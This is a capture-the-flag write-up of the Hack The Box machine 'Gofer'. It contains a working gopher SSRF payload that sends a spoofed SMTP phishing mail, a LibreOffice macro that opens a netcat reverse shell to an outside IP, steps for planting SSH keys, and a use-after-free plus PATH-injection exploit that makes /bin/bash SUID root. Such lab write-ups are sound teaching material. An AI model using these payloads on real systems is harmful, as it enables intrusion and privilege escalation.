

# GOFER

# INITIAL ACCESS

## DISCOVERY

Initial nmap enumeration revealed ports 22, 80, 139, and 445. Port 25, however, was filtered, indicating a possible way to interact with it once initial access or SSRF was obtained.


Inspecting the SMB port, it was verified that anonymous access was allowed. The share **"shares"** contained a **"mail"** file with indications of how usernames are structured {flast}. It also showed that a specific user, **"jhudson"** was clicking on links. Furthermore, the e-mail indicated that the team used LibreOffice to open files.



Looking at the website on port 80, there was information about team members.


Inspecting the source code revealed the full name of team members, which could be used to generate a usernames list in the format {flast}.


So the following **"usernames.txt"** was generated:

```
jdavis
jhudson
tbuckley
ablake
```

Additional enumeration revealed a **"proxy.gofer.htb"** subdomain.


This subdomain required basic authentication to access; however, **"index.php"** was accessible without authentication via POST request.


The POST request to **"index.php"** revealed that a **"url"** parameter was required. 


This, the machine name, and the port 25 filtered, strongly suggested that this machine could be exploited using the **"gopher"** protocol.

## EXPLOIT 1 - SSRF WITH SMTP REQUEST USING GOPHER

A payload example for SSRF with SMTP request using Gopher can be found at Hacktricks here: https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher

This payload was attempted; however, some filters were in place were preventing the attack.


After several attempts, the following payload bypassed all filters in place:

```http
POST /index.php?url=gopher://0:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM%3A%3Ctbuckley@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%20<url+http%3a//10.10.15.14/ssrf-poc>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a. HTTP/1.1
Host: proxy.gofer.htb
```

Which translates to:

```smtp
HELO gofer.htb
MAIL FROM:<tbuckley@gofer.htb>
RCPT TO:<jhudson@gofer.htb>
DATA
From: [Hacker] <hacker@site.com>
To: <jhudson@gofer.htb>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: AH AH AH

You didn't say the magic word ! <url+http://10.10.15.14/ssrf-poc>


.
QUIT
```


This confirmed that **"jhudson"** was indeed clicking malicious links. The **"Wget"** in the User-Agent header also confirmed that whatever file that was served was being downloaded.

Knowing that the host machine is using LibreOffice, it's likely that the user could download a **".odt"** with a malicious script and open it.

For this attack, one can download LibreOffice and generate a script. More information about this here: https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html

If downloading LibreOffice is not possible, one can download a **".odt"** file, **"unzip"** it, modify the contents of the script located in **"./Basic/Standard/{script-name}.xml"**, and **"zip"** the file again. A sample file **"exploit.odt"** has been uploaded to this repository for your convenience.


```sh
unzip exploit.odt && rm exploit.odt
# change test.xml contents
zip -r exploiit.odt .
```

test.xml contents:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="test" script:language="StarBasic" script:moduleType="normal">REM  *****  BASIC  *****

Sub evil

    Shell(&quot;nc 10.10.15.14 1337 -e sh&quot;)
    
End Sub
</script:module>
```

Then, change the gopher SSRF to request **"exploit.odt"** and have a netcat listener waiting on port 1337.


Since a system user was exploited, it was possible to upload an SSH public key for a more stable shell via SSH.

```sh
# Kali
xclip -selection clipboard ~/.ssh/id_rsa.pub

# Gofer
cd ~ && mkdir .ssh && chmod 700 .ssh && echo '<your-pub-key>' >> .ssh/authorized_keys && chmod 600 ./ssh/authorized_keys
```


# PRIVILEGE ESCALATION - jhudson TO tbuckley

## DISCOVERY

Analyzing the processes run in the remote host with **"pspy"**, the cleartext credentials for the user **"tbuckley"** were found.

```sh
# Kali
scp -r /opt/privesc-tools jhudson@gofer.htb:/tmp

# Gofer
chmod +x /tmp/privesc-tools/pspy
/tmp/privesc-tools/pspy
```


These credentials could be used to SSH as **"tbuckley"**.

# PRIVILEGE ESCALATION - tbuckley TO root

## DISCOVERY

Enumerating the compromised user revealed that they were a member of the **"dev"** group. Members of that group had execution privileges over the file **"/usr/local/bin/notes"** which had the SUID bit set for **"root"**.

```sh
id
find / -group 1004 2>/dev/null
```


Running the file and exploring its functionalities revealed that it could be vulnerable to use-after-free exploits.


The screenshots above demonstrate that when a user was created in **"notes"**, it was assigned the **"user"** role. However, if that user got deleted twice (say, you entered option 3 twice after creating the first user), it output the error **"double free detected"** and exited the application.

## EXPLOIT 2 - USE AFTER FREE

To understand a bit more about the application, the **"strings"** binary was run.

```sh
strings /usr/local/bin/notes
```


This revealed three important bits of information:

1. Option 1 allocated a space of 24 bytes (0-23) for the user string.
2. Option 4 allocated a space of 40 bytes (0-39) for the note string.
3. Option 8 called **"tar"** without its full path, making it vulnerable to path injection.

So the plan was:

1. Generate a malicious **"tar"** file to add the SUID bit to **"/bin/bash"**
2. Exploit use-after-free to create an admin user
3. Use option 8 to call the malicious **"tar"** and become root.
 
To exploit the use-after-free on option 3, the following strategy was adopted:

1. Create a new user with option 1.
2. Delete the new user with option 3.
3. Create a new note with 24 junk characters plus the word **"admin"**.
4. Verify that the exploit was successful with option 2.

To create the junk payload, **"msf-pattern_create"** was used.

```sh
msf-pattern_create -l 24
```


## EXPLOIT 3 - PATH INJECTION

Confirming that we were able to give the user the **"admin"** role, a malicious **"tar"** file was created in the **"/tmp"** directory.

The file contained the following contents

```sh
#!/bin/bash
chmod +s /bin/bash
```

The file was changed to be executable and the **"PATH"** was also updated to run it:

```sh
chmod +x tar
export PATH=`pwd`:$PATH
```


Then the exploit was perfomed by running **"/usr/local/bin/notes"** with the following options order:

1. Create new user with option 1.
2. Delete new user with option 3.
3. Create new note with option 4.
4. Supply note contents **"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin"**.
5. Backup note with option 8 (to trigger **"tar"**).
6. Exit application with option 9.


To automate the exploit, it was possible to send the following command:

```sh
echo -e '1test\n3\n4\nAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin\n8\n9' | /usr/local/bin/notes
```
